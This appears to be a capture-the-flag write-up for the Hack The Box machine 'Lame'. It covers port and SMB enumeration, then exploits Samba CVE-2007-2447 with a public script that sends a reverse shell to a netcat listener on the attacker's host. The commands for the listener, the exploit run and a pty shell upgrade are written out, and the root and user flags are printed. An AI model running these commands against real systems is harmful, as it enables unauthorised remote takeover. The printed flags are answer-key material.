 # Lame
> Write-up author: jon-brandy
## DESCRIPTION:
- NONE
## HINT:
- NONE
## STEPS:
1. First, run nmap to the machine's host, so we can see all open ports and the service's running.

```sh
nmap -p- -sV -O -sVC 10.10.10.3
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210200834-fd61ad0f-e57d-4c34-af0c-663fc0e4ce31.png)

![image](https://user-images.githubusercontent.com/70703371/210200847-3663931c-6d30-429b-adde-26fe9fe58565.png)


2. Notice there's 2 ports that might be running some type of network shares. Not only that, we're allowed to login in ftp as anonymous.

![image](https://user-images.githubusercontent.com/70703371/210200591-280e0c35-7e9a-450f-b3cd-b5c7f448ff71.png)


![image](https://user-images.githubusercontent.com/70703371/210200876-cff53d63-2281-4b0f-a3e6-21591c5f1b3a.png)


3. Now let's login with ftp.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210200952-d0d2836b-dd36-4f60-8059-bb07a61edbe1.png)


4. Let's check are there any files or directories.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210201004-e1acce9b-8363-4406-9b9b-31b33d1c3fd4.png)


5. Got nothing.
6. Now let's do SMB enumeration.

```sh
smbmap -H 10.10.10.3
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210201182-4a75571d-55ba-4bc2-a37b-9ddd8ec454d4.png)


7. Notice there's 2 different directories than the others -> tmp, opt (doesn't have any dollar sign).

![image](https://user-images.githubusercontent.com/70703371/210201218-80dff691-4b63-47a0-9a08-9f84e40c5de4.png)

#### NOTES: 

```
tmp and opt doesn't have any dollar sign, means it can be accessed by regular use privileges.
```

8. Since only **tmp** directory with permissions to read and write, means **tmp** shall be our interest now. But the problem is we don't have any user credentials for this tmp directory.
9. Even though it's open here, but still we need user credentials to login to it.
10. Now let's use **search split** to potentially see if there's an exploit associated with the service version of samba that's running on this machine.

> RESULT

```sh
searchsploit samba 3.0.2
```

![image](https://user-images.githubusercontent.com/70703371/210201595-fb83c002-b0ef-4450-a9ca-d9d777b80f2e.png)


11. Based from the first output.

![image](https://user-images.githubusercontent.com/70703371/210201674-557895a0-5f71-4919-a613-913b2c2829ab.png)


12. We can use metasploit, but let's not use that tools, we want to dive in manually, let's start by find where this exploit stored on our kali linux (THE CVE NUMBER).

![image](https://user-images.githubusercontent.com/70703371/210201783-447f9a3f-ff63-4905-a77a-8a4a93f8e7f3.png)


> RESULT

```sh
cat /usr/share/exploitdb/exploits/unix/remote/16320.rb | grep CVE
```

![image](https://user-images.githubusercontent.com/70703371/210201888-d40c6da4-5683-446c-bdab-5fb2e9b36b70.png)


13. Let's jump to the url given.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210202094-58193400-1969-4846-ba75-b43b2eaf6987.png)


![image](https://user-images.githubusercontent.com/70703371/210202106-36e7a9a7-e101-4d3e-8306-c9ea0ec6c3a1.png)


14. Based on the samba documentation, we know that there's a configuration option which is not enabled by default and it can lead to RCE.
15. Anyway when searched the CVE number at google, i found this github repository.

```
https://github.com/amriunix/CVE-2007-2447
```

16. Before run the script, run `nc -nlvp 4444` so we can grab the reverse shell spawned by listening.
17. Next run this payload:

```
python3 usermap_script.py 10.10.10.3 139 10.10.14.4 4444
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210202810-dc68003d-953e-4ade-ad7c-8a4d57f403de.png)

![image](https://user-images.githubusercontent.com/70703371/210202839-b54d45dc-40ab-4f66-8bbe-0d0abc4bd771.png)


18. Let's type `id` and `whoami`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210202885-0ff156e9-eb89-4857-8a95-375a6e938860.png)


19. We are `root`, that's great! We don't need privilege escalation then to solve this challenge.
20. The next thing to do now is to stabilize our shell first.
21. Let's run this python command:

```py
python -c 'import pty; pty.spawn("/bin/sh")'
```

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210203099-50b7ad5d-dd42-46f0-9ee5-0f330c2b35e1.png)

22. Now let's list all files or directories inside the machine.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210203135-4c5a55f4-24f9-4c9a-81af-d1f8d599c867.png)


23. Jump to the `root` directory. 

> INSIDE

![image](https://user-images.githubusercontent.com/70703371/210203191-594dfec1-aa54-4783-8411-fb170e3235df.png)


24. Cat the root.txt file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210203213-d3ee001a-3cc3-4de6-ba2e-151a4670eef3.png)


25. Got the flag!

## FLAG

```
46b24a994e2c264192df7f7c060f1fdd
```

# GET THE USER.TXT FILE

26. Simply go to `home` directory. Then go to `makis`.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210297723-3eedb338-7eeb-4612-9cd8-adf2a8346760.png)


27. Cat the `.txt` file.

> RESULT

![image](https://user-images.githubusercontent.com/70703371/210297753-5f2d7bdb-209c-4674-bc3b-aa13f715109f.png)


28. User owned!

## USER

```
f6b0bf444d16b49c167fffea3e7a9f5a
```




